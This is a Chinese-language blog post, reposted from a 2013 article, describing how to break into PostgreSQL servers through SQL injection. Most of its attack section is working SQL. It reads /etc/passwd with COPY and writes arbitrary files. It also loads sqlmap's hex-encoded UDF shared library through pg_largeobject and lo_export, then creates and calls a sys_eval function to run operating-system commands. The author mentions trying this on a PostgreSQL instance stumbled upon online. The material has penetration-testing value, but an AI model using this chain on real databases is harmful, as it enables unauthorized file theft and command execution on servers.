








## [转] 关于入侵PostgreSQL的那些事儿（文件读取写入、命令执行的办法）  
                                                                    
### 作者                                                                   
digoal                                                                   
                                                                   
### 日期                                                                   
2018-02-01                                                                 
                                                                   
### 标签                                                                   
PostgreSQL , 入侵 , 注入 , 文件修改 , 文件读取 , 文件写入 , 大对象 , so , 二进制 , C函数        
                                                                   
----                                                                   
                                                                   
## 背景      
## 原文  
https://www.2cto.com/article/201307/226572.html  
  
今天无意发现了个PostgreSQL环境，线上学习了下，一般的数据注射（读写数据库）差异不大，不做讨论，个人比较关心PostgreSQL的文件读取和命令执行方面。  
  
  
### 1，文件读取/写入  
  
PostgreSQL 8.1 以后提供了一组现成的文件操作函数 pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()，用这些就可以胡作非为了？你错了。。。  
  
可以用这个函数直接读取/etc/passwd？实际情况下测试并未成功，因为pg_xxx这个adminpack将权限限制在了./postgresql/data下面。  
  
a）比如列目录  
  
  
  
b）读取权限允许的文件  
  
  
  
还有个写文件函数测试并未成功，而且只能像data下写也是满足不了需求的。  
  
c）比较可行的文件读取方案  
  
```  
drop table wooyun;  
CREATE TABLE wooyun(t TEXT);  
COPY wooyun FROM '/etc/passwd';  
SELECT * FROM wooyun limit 1 offset 0;  
```  
  
  
  
  
  
利用注射修改偏移值很快就可以遍历出来了，但是还是有点寒碜，直接读出全部数据  
  
```  
DROP TABLE wooyun;  
CREATE TABLE wooyun (t TEXT);  
COPY wooyun(t) FROM '/etc/passwd';  
SELECT * FROM wooyun;  
```  
  
  
  
d）写入文件  
  
```  
DROP TABLE wooyun;  
CREATE TABLE wooyun (t TEXT);  
INSERT INTO wooyun(t) VALUES ('hello wooyun');  
COPY wooyun(t) TO '/tmp/wooyun';  
```  
  
  
  
读一下看看是否存在  
  
  
  
Bingo~  
  
### 2，命令执行  
  
这里大概有三种方式  
  
a）利用 libc 中的 system() 函数  
  
很多文章会让我们添加一个到libc库的自定义功能函数  
  
```  
CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT;  
```  
  
但是返回错误  
  
```  
Error : ERROR:  incompatible library "/lib64/libc.so.6": missing magic block  
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.  
```  
  
这是因为当PostgreSQL加载外部动态库的时候，会检查MAGIC DATA，如果没有这个函数（Pg_magic_func），PostgreSQL认为这个动态库不是PostgreSQL可以使用的动态库。具体逻辑请看 src/backend/utils/fmgr/dfmgr.c 中定义的 internal_load_library 函数源代码。  
  
这样一来系统自带的可利用的库默认我不再允许动态加载，所以此路不通（也许低版本走的通，但我手里这个不行）。  
  
给一个 pg_magic_func 代码样例：  
  
```  
extern PGDLLEXPORT const Pg_magic_struct * Pg_magic_func(void);  
const Pg_magic_struct *  
pg_magic_func(void)  
{  
static const Pg_magic_struct Pg_magic_data = PG_MODULE_MAGIC_DATA;  
return &Pg_magic_data;  
}  
```  
  
b）利用Perl/Python脚本语言功能  
  
在zone上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu又是啥，经过资料的挖掘，发现是PostgreSQL自带的一种程序语言支持。  
  
具体可见这里（http://www.postgresql.org/docs/8.3/static/xplang.html）。  
  
大概意思就是PostgreSQL允许用除了SQL和C的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装PostgreSQL的Python和Perl支持，待我弄个环境在来实现下过程。  
  
c）利用C语言自定义函数  
  
Perl、Python都能在PostgreSQL自定义了更不用说C了。这个在sqlmap的udf目录下有现成的，而且还是根据版本加了Pg_magic_func函数的，可以加载。。。牛鞭！  
  
```  
FengGou:8.4 $ pwd  
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4  
FengGou:8.4 $ ls  
lib_postgresqludf_sys.so  
```  
  
将sqlmap的so文件转为16进制的代码，7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ...  
  
老他么长的一段，怎么还原成二进制的so库文件呢？这里感谢 @瞌睡龙 提供的Tips，这里用到了PostgreSQL的pg_largeobject“大对象数据”，官方原文：pg_largeobject 表保存那些标记着"大对象"的数据。 一个大对象是使用其创建时分配的 OID 标识的。 每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 每页的数据定义为LOBLKSIZE(目前是BLCKSZ/4，或者通常是 2K 字节)。  
  
a）查看PostgreSQL目录  
  
```  
SELECT setting FROM pg_settings WHERE name='data_directory';  
```  
  
b）查询oid  
  
```  
select lo_creat(-1);  
```  
  
oid为当前对象大数据的标识符，我们要利用这个存储UDF文件内容。  
  
c）oid与上面保持一致  
  
```  
delete from pg_largeobject where loid=18412;  
```  
  
等于变相清空"页面"，不要干扰库的生成  
  
d）把16进制的so文件塞进去  
  
```  
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex'));  
```  
  
e）利用PostgreSQL自带函数将大型对象导出到文件  
  
```  
SELECT lo_export(18412, 'cmd.so');  
```  
  
f）建立UDF  
  
```  
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/xxx/cmd.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;  
```  
  
g）调用这个UDF  
  
```  
select sys_eval('id');  
```  
  
  
  
  
也许服务器没装PostgreSQL的Perl、Python支持，但是C库是通用的。  
  
  
  
## 参考  
[1]PostgreSQL SQL Injection Cheat Sheet  
  
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet  
  
[2]OWASP Backend Security Project Testing PostgreSQL  
  
https://www.owasp.org/index.php/OWASP_Backend_Security_Project_Testing_PostgreSQL  
  
[3]PostGreSQL注入学习(续篇)：http://www.2cto.com/Article/200910/41874.html  
  
[4]PostgreSQL Adminpack  
  
http://www.postgresql.org/docs/8.4/static/adminpack.html  
  
[5]PostgreSQL 外部动态连接库魔法块的使用：http://www.2cto.com/database/201307/226575.html  
  
[6]Chapter 37. Procedural Languages  
  
http://www.postgresql.org/docs/8.3/static/xplang.html  
  
[7]postgresql "初级"注入大法：http://www.2cto.com/Article/201211/167435.html  
  
[8]pg_largeobject  
  
http://www.php100.com/manual/PostgreSQL8/catalog-pg-largeobject.html  
  
  
<a rel="nofollow" href="http://info.flagcounter.com/h9V1"  ></a>  
  
  
  
  
  
  
## [digoal's 大量PostgreSQL文章入口](https://github.com/digoal/blog/blob/master/README.md "22709685feb7cab07d30f30387f0a9ae")
  
